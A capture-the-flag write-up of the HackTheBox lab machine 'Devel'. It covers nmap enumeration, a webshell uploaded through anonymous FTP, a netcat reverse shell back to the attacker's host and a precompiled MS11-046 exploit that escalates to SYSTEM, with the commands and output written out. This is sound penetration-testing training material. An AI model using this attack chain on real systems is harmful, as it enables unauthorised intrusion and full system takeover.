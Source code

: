 ```yaml
---
layout: post
title:  "HackTheBox - Devel Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Devel" (10.10.10.5) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As usual we're going to start off with our two nmap scans, a full TCP scan using `nmap -sV -sC -p- 10.10.10.5` and `nmap -sU -p- 10.10.10.5` in this case, we only returned ports open on TCP so we're going to look at that now.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-21 16:59 BST
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see we've got two ports FTP & HTTP, FTP stands out right away because NMAP has confirmed for us that Anonymous login is allowed, that is a severe miss configuration which we can take advantage of. It even looks like the web server root is also the FTP server root, this is another sysadmin fail. We'll login to that in just a few moments, but first our web server appears to be running IIS 7.5, normally I would look for some low-hanging exploits however, given that the FTP root is the same as the web-server root, and we know that it's running ASP.NET, we're not going to go for that as I think there will be an easier path.

### FTP & HTTP

Upon logging into the FTP server we can see the same files as per the NMAP scan, and by visiting the site on HTTP we can confirm that the web root is the same as the FTP root so we're going to try and upload an ASPX shell, luckily for us there is one built into Kali.

```
ftp> put /usr/share/webshells/aspx/cmdasp.aspx cmd.aspx
local: /usr/share/webshells/aspx/cmdasp.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (200.5416 kB/s)
```

On port 80, let's try and visit this page and see what happens, if we look at the screenshot below, we've got a command box, that's good! That means our webshell uploaded correctly as expected.

![asp web-shell](/assets/images/2019-05-25-Devel/Screenshot-2019-5-25.png)

Now that we know that works, lets try and use this to execute a netcat.exe, we know that we can upload and it's going into the web root folder so this should allow us to leverage this in order to get a reverse shell on the device.

## User Exploitation

Let's put netcat.exe on the device using FTP. It's important to note that we do need to set the FTP transfer mode to binary, else netcat is not going to execute and we'll get an error when trying to execute the file. The webserver was by default using ASCII mode, in general we only want to use ASCII mode for transferring things such as text files and the like, as we're trying to execute something, we switch to binary mode. You can verify the transfer mode the server is using over FTP by using the `type` in our case we are returned `Using ascii mode to transfer files.` hence why we changed it to binary mode by typing `binary`

```
ftp> binary
200 Type set to I.
ftp> put /usr/share/windows-binaries/nc.exe nc.exe
local: /usr/share/windows-binaries/nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.09 secs (639.0480 kB/s)
```

We didn't actually test our webshell yet so let's run a simple `whoami` in the shell and press execute, as you can see in the below screenshot `iis apppool\web` is returned so we know that our webshell for sure works and we know that the webserver is not running as system at least (that'd be a major sysadmin fail).

![asp webshell execution](/assets/images/2019-05-25-Devel/webshell-execution.png)

So as you can see, we've got basic execution, now what we're going to do is get the web server to execute netcat for our reverse shell, let's first set a listener up on port 80 with `nc -nvlp 80`. We're now going to use our remote code execution to find the full path for the netcat.exe that we uploaded. We can do this using the `dir` command - `dir /s/b C:\ | find /i "nc.exe` it turns out it is located at `C:\inetpub\wwwroot\nc.exe` in order to execute this then we're just going to run `C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.12 80` which will give us a connection back to our listener, we've now got a login. I did initially try and get to the `user.txt` flag however because I was only a service account I did not have access this meant we need to priv-esc.

## Privilege Escalation

So, we're on the device, let's work on the priv-esc - the first thing we should run as soon as we access a Windows system is `systeminfo` it's going to give us the OS version which is very powerful as we can then start to search for priv-esc flaws in the operating system.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          28/5/2019, 8:07:50 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 3/7/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 683 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.497 MB
Virtual Memory: In Use:    550 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

In the codeblock above, right at the top you can see the "OS Version" as you see for this box the OS version is "6.1.7600 Build 7600", let's do some Google-fu and append "privilege escalation" on the end. The very first result we get is [MS11-046 on ExploitDB](https://www.exploit-db.com/exploits/40564), let's check out this exploit. As you can see commented out at the top of the exploit, the author has listed the vulnerable OS's and Windows 7 X86 is listed, we see no mention of enterprise but we're going to assume that our target is vulnerable to this exploit.

To save myself a headache of compiling this exploit on Linux (because we will get errors on Linux due to some of the includes) we're going to take advantage of a repository put together by [Abatchy17 called "WindowsExploits"](https://github.com/abatchy17/WindowsExploits) it's no longer being updated but as we can see, our exploit MS11-046 is in there pre-compiled so let's `git clone` the repo and then use our anonymous FTP login to upload the file to the server once again making sure the type is set to binary else the file won't execute.

```
ftp> binary
200 Type set to I.
ftp> 
ftp> put /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe MS11-046.exe
local: /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe remote: MS11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
112815 bytes sent in 0.08 secs (1.3597 MB/s)
ftp> 
```

Now we've got the exploit on the system all we need to do is execute it, simple right? Yup! If you don't know where the file is you can take advantage of dir again however we know that the path is `C:\inetpub\wwwroot\` anyway so let's execute the file by doing `C:\inetpub\wwwroot\MS11-046.exe` and after about 10 seconds we're going to see the `System32` prompt, let's do a `whoami` to verify and we should see `nt authority\system`. That's it! That's our priv-esc done so now we can go ahead and get the user + root flag and we're done.

Thank you for reading another writeup, this is an OSCP like box so this is great practice for that! In another post we will cover how MS11-046 works a little more because it's for sure a priv-esc exploit we want to keep in mind!